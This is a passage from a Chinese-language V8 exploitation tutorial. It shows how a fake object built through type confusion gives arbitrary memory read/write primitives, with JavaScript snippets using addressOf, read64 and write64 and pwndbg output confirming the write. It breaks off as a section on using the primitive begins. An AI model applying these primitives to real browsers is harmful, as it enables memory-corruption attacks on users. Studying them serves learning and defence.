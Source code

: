 需要注意的是，我在fake_array中申请了6个元素占了0x30个内存长度，因此再加上elements对象10字节的map和length，总长度应该是0x40个长度，因此fake_object所在内存位置应该为addressOf(fake_array)-0x40+0x10。

然后在v8中进行调试：

```assembly
var a = [1.1, 2.2, 3.3];
%DebugPrint(a);
var a_addr = addressOf(a);
console.log("[*] addressOf a: 0x" + hex(a_addr));

read64(a_addr);
%SystemBreak();

write64(a_addr, 0x01020304n);
%SystemBreak();
```

gdb能够得到如下日志信息：

```assembly
0x3d41cfb4fa19 <JSArray[3]>
[*] addressOf a: 0x00003d41cfb4fa18
[*] leak from: 0x00003d41cfb4fa18: 0x0000312055a82ed9
pwndbg> c
Continuing.
[*] write to : 0x00003d41cfb4fa18: 0x0000000001020304
pwndbg> telescope 0x00003d41cfb4fa18
00:0000│   0x3d41cfb4fa18 ◂— 0x1020304  <---- 这里已经写入了我们想要写入的数据
01:0008│   0x3d41cfb4fa20 —▸ 0x22229ec40c71 ◂— 0x22229ec408
02:0010│   0x3d41cfb4fa28 —▸ 0x3d41cfb4f9f1 ◂— 0x22229ec414
03:0018│   0x3d41cfb4fa30 ◂— 0x300000000
```

最后可以发现，对象A的内存地址处确实写入了我们想要写入的数据。

这一步需要注意的是，如果我们将fake_object的数组内容直接改写为：

```assembly
var fake_array = [
    float_array_map,
    i2f(0n),
    i2f(0x41414141n),
    i2f(0x1000000000n),
];
```

在gdb调试中会发现，这种情况下fake_array的elements指针指向了addressOf(fake_array) + 0x20的位置，而并不是我们之前理解的-0x30的位置。个人猜测，这应该和自己编写的64位无符号整数转浮点数的i2f函数有关系。如果是这样的话，就不存在oob的类型混淆了，但这并不影响这一步利用fakeObject实现任意地址读写的效果。但为了保证前后统一，还是建议在实际构造时，构造成6个元素的fake_array。

# 任意地址读写怎么用：谈漏洞利用的思路

通过上述类型混淆，我们实现了一套任意地址读写的漏洞利用原语。那如何实现利用呢？

在传统堆漏洞的pwn中，利用过程是这样的：
